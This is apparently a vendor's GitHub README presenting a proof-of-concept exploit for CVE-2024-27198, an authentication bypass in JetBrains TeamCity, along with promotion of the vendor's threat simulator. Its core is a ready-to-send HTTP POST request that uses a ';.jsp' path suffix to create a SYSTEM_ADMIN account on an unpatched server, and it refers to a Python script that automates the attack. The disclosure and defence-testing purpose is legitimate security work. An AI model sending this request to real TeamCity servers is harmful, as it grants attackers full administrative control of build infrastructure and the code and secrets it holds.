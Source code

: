 # JetBrains TeamCity CVE-2024-27198 PoC Exploit
Recently, JetBrains disclosed a critical vulnerability affecting JetBrains TeamCity CI/CD server products.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2024-27198 vulnerability.

Test security controls against the CVE-2024-27198 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2024-27198 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 

If you are looking for more detailed information, check out our blog post: [CVE-2024-27198 and CVE-2024-27199: JetBrains TeamCity Authentication Bypass Vulnerabilities Explained](https://www.picussecurity.com/resource/blog/cve-2024-27198-cve-2024-27199)

CVE-2024-27198 Proof-of-concept (POC)
----------------------
CVE-2024-27198 vulnerability is caused by a CWE-288 weakness found in BaseController class of web-openapi.jar library. When an API endpoint receives a request appended with. jsp, the BaseController class allows the request to bypass authentication.
The example HTTP POST request below exploits CVE-2024-27198 vulnerability to add a new administrator user. Note the ";.jsp" located after the API endpoint.

As a PoC there is a python file that automates the process. 

#### Example CVE-2024-27198 Exploit:
```http
POST /notexist?jsp=/app/rest/users;.jsp HTTP/1.1
Content-Type: application/json
Content-Length: 120

{"username": "test", "password": "test", "email": "test", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
